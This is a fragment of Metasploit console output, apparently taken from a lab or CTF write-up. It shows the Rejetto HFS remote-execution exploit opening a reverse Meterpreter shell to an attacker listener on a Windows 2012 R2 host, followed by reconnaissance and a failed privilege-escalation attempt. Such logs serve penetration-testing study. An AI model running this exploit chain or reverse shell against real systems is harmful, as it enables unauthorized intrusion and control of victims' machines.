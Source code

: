 ```
   Id  Name
   --  ----
   0   Automatic

```

```
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.16.4:4444 
[*] Using URL: http://0.0.0.0:8080/mQmnUcX2qBZKX7A
[*] Local IP: http://10.10.16.4:8080/mQmnUcX2qBZKX7A
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /mQmnUcX2qBZKX7A
[*] Sending stage (200262 bytes) to 10.0.22.98
[*] Meterpreter session 1 opened (10.10.16.4:4444 -> 10.0.22.98:49244) at 2023-02-15 08:32:36 +0530
[!] Tried to delete %TEMP%\qkBIzyh.vbs, unknown result
[*] Server stopped.

meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > getsystem
[-] 2001: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

```
